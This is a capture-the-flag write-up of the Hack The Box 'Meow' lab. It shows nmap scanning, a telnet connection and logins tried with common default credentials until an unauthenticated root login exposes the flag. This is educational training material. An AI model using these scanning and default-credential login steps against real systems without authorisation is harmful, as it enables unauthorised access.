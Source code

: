 ## Table of Contents

### Tier 0

 1. [Level 1: Meow](#level-1-meow) - July 16th, 2022
 2. [Level 2: Fawn](#level-2-fawn) - July 16th, 2022
 3. [Level 3: Dancing](#level-3-dancing) - July 16th, 2022
 4. [Level 4: Redeemer](#level-4-redeemer) - July 16th, 2022
 5. [Level 5: Explosion](#level-5-explosion) - July 16th, 2022
 6. [Level 6: Preignition](#level-6-preignition) - July 16th, 2022

### Tier 1

 1. [Level 1: Appointment](#level-1-appointment) - July 16th, 2022
 2. [Level 2: Sequel](#level-2-sequel) - July 16th, 2022
 3. [Level 3: Crocodile](#level-3-crocodile) - July 16th, 2022
 4. [Level 4: Responder](#level-4-responder) - July 16th, 2022
 5. [Level 5: Ignition](#level-5-ignition) - July 16th, 2022
 6. [Level 7: Bike](#level-6-bike) - July 16th, 2022
 7. [Level 8: Pennyworth](#level-6-pennyworth) - July 16th, 2022
 8. [Level 9: Tactics](#level-6-tactics) - July 16th, 2022

## Level 1: Meow

### Enumeration

The first step is understanding what information we currently have access too. We have been given an IP address of the machine, so we can start initiating a port scan using nmap.

First we can try to see if we can make contact with the machine with a ping request.

```
ping {ip address}
```
The results from the ping are:

```
└─$ ping 10.129.1.17
PING 10.129.1.17 (10.129.1.17) 56(84) bytes of data.
64 bytes from 10.129.1.17: icmp_seq=1 ttl=63 time=9.08 ms
64 bytes from 10.129.1.17: icmp_seq=2 ttl=63 time=7.17 ms
64 bytes from 10.129.1.17: icmp_seq=3 ttl=63 time=6.02 ms
64 bytes from 10.129.1.17: icmp_seq=4 ttl=63 time=12.0 ms
--- 10.129.1.17 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 6.021/8.572/12.024/2.272 ms
```
As we can see, we made a connection with the host. 

Next, we can try using nmap to see if there are any ports that can be exploited.

```
nmap -p- --min-rate 3000 -sC -sV {ip address}
```

Where:

```
-p-: scans ALL ports
--min-rate <number>: Send packets no slower than <number> per second
-sC: equivalent to --script=default
-sV: Probe open ports to determine service/version info
```
The results of nmap are:

```
nmap -p- --min-rate 3000 -sC -sV 10.129.1.17  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-16 10:04 EDT
Nmap scan report for 10.129.1.17
Host is up (0.0084s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.95 seconds
```
Our scan shows some interesting results. Port 23 is open, and reserved for the service telnet. Telnet is an insecure, outdated protocol that should not be used. A quote from [wikipedia](https://en.wikipedia.org/wiki/Telnet):


> Telnet, by default, does not encrypt any data sent over the connection (including passwords), and so it is often feasible to eavesdrop on the communications and use the password later for malicious purposes; anybody who has access to a router, switch, hub or gateway located on the network between the two hosts where Telnet is being used can intercept the packets passing by and obtain login, password and whatever else is typed with a packet analyzer. 

> Most implementations of Telnet have no authentication that would ensure communication is carried out between the two desired hosts and not intercepted in the middle. 

> Several vulnerabilities have been discovered over the years in commonly used Telnet daemons. 


Thus, we can use this to our advantage to exploit this machine. 

We can start by trying to connect to the server using the telnet service.

```
telnet {ip address}
```
 
The results of using telnet are:

```
└─$ telnet 10.129.1.17
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

Now we can try to use some commonly used credentials that may have been set up insecurely by an administrator who set up and configured the service. 
According to [threat intelligence reports](https://www.f5.com/labs/articles/threat-intelligence/spaceballs-security--the-top-attacked-usernames-and-passwords)

![Figure1_min](https://user-images.githubusercontent.com/59018247/179361794-36c3a464-db56-4e23-b48b-6b37ecc8b052.png)

The 5 most common user names and passwords attacked are as follows: 

| # | 	Username 	| Password |
| ----------- | ----------- | ----------- |
| 1 | 	root   |    	admin   | 
| 2 | 	admin  |    	admin   | 
| 3 | 	user 	 |  user       | 
| 4 | 	test 	 |  test       | 
| 5 | 	ubuntu |  	ubuntu    | 

We can start by using these credentials to start with.

```
Meow login: admin
Password: 

Login incorrect
```

```
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 16 Jul 2022 02:20:12 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             139
  Users logged in:       0
  IPv4 address for eth0: 10.129.1.17
  IPv6 address for eth0: dead:beef::250:56ff:feb9:e2d7

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# 
```
We can see here by using the username root, we were able to get root access to the system. 

Once infiltrated, we can now scan the directory for any important files.

```
root@Meow:~# ls

flag.txt  snap 
```

As we can see, we found out first flag in the main directory.

## Conclusions - Level 1 Meow

Using nmap, we were able to discover the host was running telnet on port 23. From there, we were able to get root access to the telnet service, since the administrator of server had poorly configured the authentication of the system.

 


